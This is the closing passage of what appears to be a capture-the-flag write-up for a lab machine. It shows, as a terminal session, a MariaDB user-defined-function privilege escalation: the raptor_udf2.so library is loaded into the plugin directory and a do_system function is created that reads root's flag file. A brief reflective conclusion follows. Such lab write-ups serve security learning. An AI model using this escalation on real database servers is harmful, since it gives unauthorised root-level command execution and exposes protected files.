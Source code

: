 Now we have the library, we login inside the Mysql as a privileged user (root) and follow the next steps:

```bash
svc@noter:/tmp/flame$ mysql -u root -p
Enter password:

# Use a database
MariaDB [(none)]> use mysql;

Database changed

# Create a table to load the library and move it to the plugins dir
MariaDB [mysql]> create table npn(line blob);
Query OK, 0 rows affected (0.005 sec)

# Load the binary library inside the table
MariaDB [mysql]> insert into npn values(load_file('/tmp/flame/raptor_udf2.so')); 
Query OK, 1 row affected (0.002 sec)

# Get the plugin_dir path
MariaDB [mysql]> show variables like '%plugin%';

# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ dump in there the library
MariaDB [mysql]> select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';

# Create a function to execute commands
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
MariaDB [mysql]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+

# Execute commands
MariaDB [mysql]> select do_system("cat /root/root.txt > /tmp/flame/root.txt ; chmod 777 /tmp/flame/root.txt");
MariaDB [mysql]> exit
Bye
svc@noter:/tmp/flame$ cat root.txt
```

It worked! 

# Conclusion

It was a fun box for me. I've stucked when I've got a password policy, checked the user `admin` for it and haven't checked `ftp_admin` for it. That was so close 😂. A privilege escalation was kinda easy to exploit, but really hard to find without any hints or `LinPEAS`, but probably I've just got tired at that moment...

Thank you for reading, I hope it was useful for you ❤️
